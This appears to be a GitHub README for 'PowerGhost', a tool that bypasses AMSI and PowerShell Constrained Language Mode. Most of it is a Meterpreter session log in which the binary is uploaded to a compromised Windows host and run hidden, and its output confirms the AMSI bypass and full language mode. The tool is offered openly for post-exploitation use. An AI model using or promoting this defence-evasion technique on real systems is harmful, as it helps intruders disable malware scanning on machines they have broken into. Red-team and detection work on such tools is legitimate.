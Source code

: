 # PowerGhost
A custom run space to bypass AMSI and Constrained Language mode in PowerShell.

### Example running in Meterpreter

```
meterpreter > upload PowerGhost64.exe
[*] uploading  : PowerGhost64.exe -> PowerGhost64.exe
[*] Uploaded 6.00 KiB of 6.00 KiB (100.0%): PowerGhost64.exe -> PowerGhost64.exe
[*] uploaded   : PowerGhost64.exe -> PowerGhost64.exe
meterpreter > execute -H -i -f "PowerGhost64.exe"
Process 5276 created.
Channel 8 created.

PowerGhost by PlackyHacker
--------------------------

Type 'exit' to close.

[+] Executing AMSI bypass...
PG C:\Users\Placky> $ExecutionContext.SessionState.LanguageMode
FullLanguage
PG C:\Users\Placky>
```
